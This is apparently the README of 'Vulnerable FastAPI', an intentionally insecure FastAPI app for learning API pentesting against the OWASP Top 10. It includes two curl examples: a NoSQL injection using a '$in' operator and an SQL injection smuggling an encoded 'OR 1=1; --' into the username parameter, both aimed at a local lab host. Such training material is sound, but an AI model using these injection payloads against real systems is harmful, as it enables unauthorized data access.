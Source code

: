 ![Vulnerable FastAPI Logo](./logo.png "Vulnerable FastAPI Logo")
<p align="center">
    <em>Vulnerable FastAPI, compliant to <a href="https://owasp.org/www-project-top-ten/">OWASP TOP 10: 2021</a></em><br><b> ⚠️ Under Development ⚠️</b>
</p>

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

### Current exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```
NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```
SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```
---
### Thanks
 - [FastAPI](https://tiangolo.fastapi.com)
 - [Faker](https://github.com/joke2k/faker)
 - [aioSQLite](https://github.com/omnilib/aiosqlite)
 - [MontyDB](https://github.com/davidlatwe/montydb)
 - [OWASP Top 10](https://owasp.org/www-project-top-ten/)

